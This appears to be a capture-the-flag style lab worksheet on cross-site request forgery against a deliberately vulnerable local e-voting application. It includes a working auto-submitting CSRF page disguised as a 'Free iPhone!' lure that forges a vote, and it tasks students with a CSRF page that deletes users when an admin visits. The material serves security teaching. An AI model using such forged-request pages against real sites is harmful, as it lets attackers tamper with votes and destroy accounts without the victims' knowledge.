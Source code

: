 
## 🛡️ Exercise 6: CSRF Exploitation (30 minutes)

### Objectives
- Understand CSRF attacks
- Create CSRF proof-of-concept
- Exploit voting system

### Tasks

#### Task 6.1: CSRF in Voting
**Instructions:**
1. Check if voting form has CSRF tokens
2. Create a malicious HTML page with auto-submit form

**Malicious page template:**
```html
<html>
<body>
<h1>Free iPhone!</h1>
<form action="http://localhost:8181/evoting/electioninfo2016.php" method="POST" id="csrf">
    <input type="hidden" name="president" value="ATTACKER_CANDIDATE">
    <input type="hidden" name="VoterId" value="50001">
    <input type="hidden" name="StateNum" value="1">
    <input type="hidden" name="submit" value="Submit">
</form>
<script>document.getElementById('csrf').submit();</script>
</body>
</html>
```

**Document:**
```
CSRF tokens present: YES / NO

Attack successful: YES / NO

FLAG FOUND: ________________
```

#### Task 6.2: CSRF in User Deletion
**Objective:** Delete users via CSRF

**Instructions:**
1. Create CSRF page for DeleteUser.php
2. Host it locally
3. Test if admin visiting your page triggers deletion

**Document:**
```
CSRF in deletion successful: YES / NO

Users deleted: ___________________

FLAG FOUND: ________________
```

---
